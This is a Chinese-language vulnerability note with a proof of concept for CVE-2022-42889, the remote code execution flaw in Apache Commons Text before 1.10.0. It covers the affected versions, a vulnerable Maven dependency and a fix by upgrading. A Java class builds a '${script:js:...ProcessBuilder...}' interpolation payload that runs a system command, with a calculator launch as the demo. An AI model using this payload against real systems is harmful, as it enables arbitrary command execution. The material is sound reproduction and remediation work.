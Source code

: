 # Apache Commons Text 远程代码执行（CVE-2022-42889 ）

## 来源描述：
https://seclists.org/oss-sec/2022/q4/22
CVE-2022-42889：由于不安全的插值默认值，1.10.0 之前的 Apache Commons Text 在应用于不受信任的输入时允许 RCE。

## POC：
`String payload = "sssa${script:js:new java.lang.ProcessBuilder(\"任意系统命令\").start()}asdasd";`

这个漏洞类似于Log4shell，脏数据插入到任何地方，只要进入到stringSubstitutorInterpolator.replaceXXX方法就可触发。

## 影响范围：
Apache Commons Text < 1.10.0【2022.09.28之前所有版本】

## 复现：
```
引入漏洞组件：

<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-text</artifactId>
    <version>1.9</version>
</dependency>
```
## 复现POC类：
```
package org.joychou.controller;
import org.apache.commons.text.StringSubstitutor;

public class SLF {

    public static void main(String[] args)  {
        System.out.println("Welcome to the POC of RCE on Apache Commons Text below 1.10.0");
// 这种用法才存在漏洞
        StringSubstitutor stringSubstitutorInterpolator = StringSubstitutor.createInterpolator();
        String payload = "sssa${script:js:new java.lang.ProcessBuilder(\"/Applications/Calculator.app/Contents/MacOS/Calculator\").start()}asdasd";
//        stringSubstitutorInterpolator.replace(payload); // exploit
//        stringSubstitutorInterpolator.replaceIn(new StringBuffer(payload)); //exploit

        System.out.println("The above payload will start a Calculator hence we can execute any code we want");

    }
}
```

## 修复方式：
-- 升级到1.10.0版本

类似的：
GHSL-2022-017: Arbitrary command execution through Apache Commons Configuration - CVE-2022-33980

https://securitylab.github.com/advisories/GHSL-2022-017_Apache_Commons_Configuration/
